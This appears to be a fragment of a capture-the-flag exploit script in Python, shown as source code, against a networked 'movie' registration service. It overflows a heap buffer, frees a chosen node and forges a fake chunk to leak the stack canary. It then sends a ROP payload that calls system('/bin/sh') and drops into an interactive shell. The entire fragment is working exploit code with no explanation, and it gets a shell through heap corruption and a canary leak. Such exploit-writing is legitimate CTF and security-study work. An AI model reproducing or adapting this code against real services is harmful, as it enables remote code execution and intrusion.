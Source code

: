 ```python
    # leak canary!
    # free 1st node
    payload = b'C' * 0x400
    payload += p32(0x410)   # size > 0x3ff
    payload += p32(node1_addr)  # address to free
    sess3.register(title, len(payload), payload)
    time.sleep(SLEEP_TICK)
    sess1.broadcast(1)

    # make fake_chunk
    fake_chunk = b''
    fake_chunk += p32(0x41414141)    # size
    fake_chunk += p32(0xffffffec)      # category_idx * 4 + categories must pointer
    fake_chunk += p32(canary_addr + 1)      # title

    # register 2nd node that title is fake_chunk
    sess1.register(fake_chunk, 4, b'D' * 4)    

    # for open in broadcase func
    fake_file = fake_chunk + p32(heap_base + 0x1198)
    sess3.register(fake_file, 4, b'E' * 4)
    time.sleep(SLEEP_TICK)

    # list movies
    movie_list = sess1.broadcast(2)
    canary = u32(b'\x00' + movie_list.split(b'Titile : ')[1].split(b'\n')[0][0:3])
    print(f"Canary: {hex(canary)}")

    # ROP Stage
    libc.address = libc_base

    system_addr = libc.symbols['system']
    bin_sh_addr = next(libc.search(b'/bin/sh'))

    new_title = b'hihihihi'
    sess1.register(new_title, 0x3f0, b'A' * 0x3f0)
    time.sleep(SLEEP_TICK)

    payload = b'C' * 0x400
    payload += p32(0x3f0)
    payload += b'AAAA'
    payload += p32(canary)
    payload += b'AAAA'*3
    payload += p32(system_addr)
    payload += b'BBBB'
    payload += p32(bin_sh_addr)
    sess2.register(new_title, len(payload), payload)
    time.sleep(SLEEP_TICK)

    sess1.broadcast(3)
    sess1.interactive()

```